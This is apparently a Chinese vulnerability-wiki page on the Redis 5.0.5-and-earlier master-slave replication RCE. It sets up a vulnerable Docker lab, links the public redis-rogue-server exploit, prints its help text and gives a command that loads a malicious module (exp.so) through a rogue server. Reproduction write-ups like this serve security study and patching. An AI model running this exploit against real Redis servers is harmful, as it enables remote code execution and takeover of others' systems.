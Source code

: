 ```yaml
---
title: Redis 小于5.0.5 主从复制 RCE 
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 服务器应用漏洞
 - Redis
---
```


# Redis <= 5.0.5 主从复制 RCE 

## 漏洞描述

在2019年7月7日结束的WCTF2019 Final上，LC/BC的成员Pavel Toporkov在分享会上介绍了一种关于redis新版本的RCE利用方式，比起以前的利用方式来说，这种利用方式更为通用，危害也更大

[Pavel Toporkov的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

## 影响版本

> [!NOTE]
>
> Redis <= 5.0.5

## 环境搭建

```shell
docker pull damonevking/redis5.0 
docker run -p 6379:6379 -d damonevking/redis5.0 redis-server
```

nmap扫描一下6379端口开放即为搭建成功

```shell
root@kali:~/桌面# docker pull damonevking/redis5.0 
Using default tag: latest

latest: Pulling from damonevking/redis5.0
fc7181108d40: Pull complete 
3e0ac67cad82: Pull complete 
6ee495cb7235: Pull complete 
9f7206d08b9d: Pull complete 
a8354ef8cccb: Pull complete 
53afb10d81c2: Pull complete 
Digest: sha256:adcf62f378efe1187d2f72c6f0ecdf86ab2173a9e1c3c9f4fe4bb89060f5362f
Status: Downloaded newer image for damonevking/redis5.0:latest
docker.io/damonevking/redis5.0:latest
root@kali:~/桌面# docker run -p 6379:6379 -d damonevking/redis5.0 redis-server
1275aa9c6c8f8ad0b6c8e58e609be6681acedec301b5593f7e8b0bd65f7fad12
root@kali:~/桌面# nmap 127.0.0.1 -p 6379
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-08 21:47 CST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000099s latency).

PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
```

## 漏洞复现

关于漏洞原理请查看[Pavel Toporkov的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

漏洞利用脚本: [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

```shell
➜ ./redis-rogue-server.py -h
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

Usage: redis-rogue-server.py [options]

Options:
  -h, --help           show this help message and exit
  --rhost=REMOTE_HOST  target host
  --rport=REMOTE_PORT  target redis port, default 6379
  --lhost=LOCAL_HOST   rogue server ip
  --lport=LOCAL_PORT   rogue server listen port, default 21000
  --exp=EXP_FILE       Redis Module to load, default exp.so
  -v, --verbose        Show full data stream
Example
```

```shell
python3 redis-rogue-server.py --rhost 192.168.51.146 --lhost 192.168.51.146 --exp=exp.so
```

![](/img/20210924013750405942.png)

![](/img/20210924013752879487.png)